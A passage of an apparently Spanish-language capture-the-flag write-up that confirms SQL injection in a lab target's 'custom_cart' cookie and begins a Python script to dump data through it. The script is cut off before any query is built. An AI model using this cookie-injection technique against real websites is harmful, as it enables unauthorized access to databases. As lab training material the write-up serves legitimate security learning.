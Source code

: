 Si urldecodiamos la cookie de custom_cart el valor de este es el que nos muestra la web.

![](/assets/img/shared/bu3.png)

Si le agregamos una ' al campo de la cookie nos dice not found.

![](/assets/img/shared/bu4.png)

Si agregamos un comentario al resto de la query el valor vuelve aparecer.
![](/assets/img/shared/bu5.png)

## SQL Injection
Este campo es vulnerable a SQL Injection voy a crear un script de python atraves del cual poder dumpear todos los datos que me interesen.

```python
#!/bin/bash

import signal, sys, requests, pdb, re

def ctrl_c(sig, frame):

    print("\n\n[!] Saliendo.\n")
    sys.exit(1)

# Ctrl + C
signal.signal(signal.SIGINT, ctrl_c)

# Variables
url = 'http://checkout.shared.htb'
burp = {"http":"http://127.0.0.1:8080"}

def makeRequest(query):
    
    data = ''

    cookies = {
            "custom_cart":"""{"%s":"1"}""" % query
            }
 
    r = requests.get(url,cookies=cookies)
    
    return r.text

if __name__ == "__main__":
    
    query = ''
```